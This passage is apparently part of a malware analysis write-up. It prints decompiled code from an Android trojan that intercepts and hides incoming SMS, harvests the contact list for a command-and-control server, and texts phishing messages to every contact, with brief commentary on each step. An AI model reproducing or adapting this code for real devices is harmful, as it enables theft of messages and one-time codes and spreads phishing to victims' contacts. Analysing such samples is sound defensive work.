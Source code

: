 ```cs
                new SendSms(s, s1).justExecute();
                StringBuilder stringBuilder0 = new StringBuilder().append("Sending SMS Message (");
                String s2 = smsMessage0.getOriginatingAddress();
                Intrinsics.checkNotNull(s2);
                AppKt.log$default(this, stringBuilder0.append(s2).append(", ").append(smsMessage0.getMessageBody()).append(')').toString(), null, null, 6, null);
                this.abortBroadcast();
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }
}

```
The malware will start collecting contacts to gain new victims by sending phishing SMS. 

```cs
if(Intrinsics.areEqual(s, "contactssender")) {
                        HashMap hashMap0 = Contacts.getContactList(context0);
                        for(Object object0: hashMap0.keySet()) {
                            String s1 = (String)object0;
                            try {
                                Object object1 = hashMap0.get(s1);
                                Intrinsics.checkNotNull(object1);
                                Intrinsics.checkNotNullExpressionValue(object1, "contacts[i]!!");
                                ContexStartExtensionsKt.sendSMS(((Context)workerService1), ((String)object1), command0.getText());
                            }
                            catch(Exception unused_ex) {
                                return;
                            }
                        }
                    }
if(Intrinsics.areEqual(s, "getcontacts")) {
                                ContextAccessesExtensionsKt.sendImAlive(context0, preferences0, workerService0.getLogger());
                                return;
```

The malware creates a loop to collect the contacts by collecting the `id`, `display_name`, and `number` then save this info to `data1` to upload this file to C2 server.

```cs
public class Contacts {
    public static HashMap getContactList(Context context0) {
        ContentResolver contentResolver0 = context0.getContentResolver();
        Cursor cursor0 = contentResolver0.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        HashMap hashMap0 = new HashMap();
        if((cursor0 == null ? 0 : cursor0.getCount()) > 0) {
            while(cursor0.moveToNext()) {
                String s = cursor0.getString(cursor0.getColumnIndex("_id"));
                String s1 = cursor0.getString(cursor0.getColumnIndex("display_name"));
                if(cursor0.getInt(cursor0.getColumnIndex("has_phone_number")) <= 0) {
                    continue;
                }

                Cursor cursor1 = contentResolver0.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{s}, null);
                while(cursor1.moveToNext()) {
                    hashMap0.put(s1, cursor1.getString(cursor1.getColumnIndex("data1")));
                }

```